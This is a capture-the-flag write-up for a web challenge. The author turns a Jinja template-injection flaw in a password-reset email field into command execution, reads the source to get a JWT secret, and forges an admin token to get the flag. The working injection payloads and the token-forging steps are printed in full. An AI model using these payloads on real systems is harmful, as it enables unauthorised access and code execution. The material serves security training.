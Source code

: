 # WX01
> 1,000pts

## Briefing
> Access the url at: https://cfta-wx01.allyourbases.co and find a way to login to the admin portal to get the flag.

> Note: You have been provided with the following credentials to help you:

> username: `tim`

> password: `berners-lee`

## Solution
View the web requests to see that authorisation is done using a JWT token

### Getting Started
A `POST` request to `https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01` with the following body is sent:
```json
{
    "action": "login",
    "username": "tim",
    "password": "berners-lee"
}
```

This returns a JWT token that contains the user and role
```json
{
    "statusCode": 200,
    "body": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ"
}
```
... which is signed using `HS256` to
```json
{
    "username": "tim",
    "role": "user"
}
```

We need to change the `role` to `admin`, but we'll need the JWT secret key to resign the payload.

### Obtaining the Secret Key
Notice that the password reset form makes a `POST` request to `https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01` with the body:
```json
{
    "action": "help",
    "email": "test@example.com"
}
```
```json
{
    "statusCode": 200,
    "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: test@example.com</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    "
}
```

After messing with the `email` field, discover that it is vulnerable to using a Jinja templating string.

We can pop a shell using the body:
```json
{
    "action": "help",
    "email": "{{globals().__builtins__.__import__('os').popen('[ commmand ]').read()}}"
}
```

...which then means we can get the source by sending
```json
{
    "action": "help",
    "email": "{{globals().__builtins__.__import__('os').popen('cat lambda_function.py').read()}}"
}
```
```json
{
    "statusCode": 200,
    "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: from jinja2 import Template\nimport json\nimport urllib\nimport jwt\nimport os\n\n# JWT Key\nkey = \"aversion-chute-freeway-corporal\"\nalgo = \"HS256\"\n\ndef getHelp(event):\n    email = ''.join(event['email'])\n    template = \"\"\"\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: %s</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    \"\"\" % (urllib.parse.unquote(email).replace(\"<\", \"&lt;\").replace(\">\", \"&gt;\"))\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n    msg = msg[:-len(msg)+700]\n    return msg\n\ndef login(event)"
}
```

This gives us the JWT key, `aversion-chute-freeway-corporal`

### Logging In
CyberChef can be used to sign the following payload with the `HS256` algorithm and secret key `aversion-chute-freeway-corporal`:
```json
{
    "username": "tim",
    "role": "admin"
}
```
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYxNzc5NzI0OX0.rRYKHKlanDexPgprltGyAvfjVoSyqSpLUIkR13_qcT4
```

This token just needs to be sent as a `verify` action obtain the flag:
```json
{
    "action": "verify",
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYxNzc5NjcwNH0.AIRho1XtNkBU0iKhlWuPgEaaHf3IWmokEv4mNhnuAfE"
}
```
```json
{
    "statusCode": 200,
    "body": "muLtiStagingIT710-12"
}
```

## Flag
Flag: `muLtiStagingIT710-12`
